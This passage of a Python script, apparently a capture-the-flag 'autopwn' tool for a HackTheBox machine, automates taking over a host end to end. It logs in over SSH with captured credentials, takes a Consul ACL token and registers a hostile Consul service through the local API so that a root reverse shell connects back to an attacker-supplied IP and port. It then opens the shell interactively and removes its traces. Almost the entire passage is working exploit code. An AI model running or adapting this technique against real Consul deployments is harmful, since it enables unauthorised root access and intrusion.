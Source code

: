 ```python
			ssh_client = self.ssh_connection(user=self.target_credentials['ssh']['user'],
											 password=self.target_credentials['ssh']['pass'])

			# create workstation
			ssh_client.exec_command('mkdir -p /tmp/.{}'.format(self.args.ip))

			# get token and upload required files
			self.get_consul_token(ssh_client)
			self.upload_files(ssh_client)
			
			# create service and send root shell
			command = "curl -X PUT 'http://localhost:8500/v1/agent/service/register?replace-existing-checks=true'" \
				+ f" -H 'X-Consul-Token: {self.target_credentials['consul']['token']}'" \
				+ f" --data @/tmp/.{self.args.ip}/{self.json_file}"

			ssh_client.exec_command(command)

			# listen mode to receive shell
			shell = listen(self.args.port, timeout=20).wait_for_connection()

			if shell.sock:
				log.info('Press Ctrl + D to exit.')
				shell.interactive()

			log.info('Removing service')
			# remove service
			command = "curl -X PUT 'http://localhost:8500/v1/agent/service/deregister/autopwn_shell'" \
				+ f" -H 'X-Consul-Token: {self.target_credentials['consul']['token']}'"
			ssh_client.exec_command(command)

			log.info('Removing workstation with uploaded files')
			# remove workstation
			ssh_client.exec_command(f'rm -r /tmp/.{self.args.ip}')

			# close ssh connection
			ssh_client.close()

		except Exception as error:
			exit('\n[x] Error: %s' % error)

## Main flow
if __name__ == '__main__':
	ascii_title = '''
	 /\  ._ _  |_   _.  _  _  _.  _|  _  ._    /\      _|_  _  ._       ._  
	/--\ | | | |_) (_| _> _> (_| (_| (_) |    /--\ |_|  |_ (_) |_) \/\/ | | 
	                                                           |           
	                                                                  by marss
	'''

	parser = argparse.ArgumentParser(
		description=ascii_title,
		formatter_class=argparse.RawDescriptionHelpFormatter,
		epilog='''\nExample:
		autopwn.py -i 10.10.10.10 -p 4444
		''')

	parser.add_argument('-i', '--ip', required=True, help='Specified IP to receive the shell')
	parser.add_argument('-p', '--port', required=True, help='Specified PORT to receive the shell')

	args = parser.parse_args()

```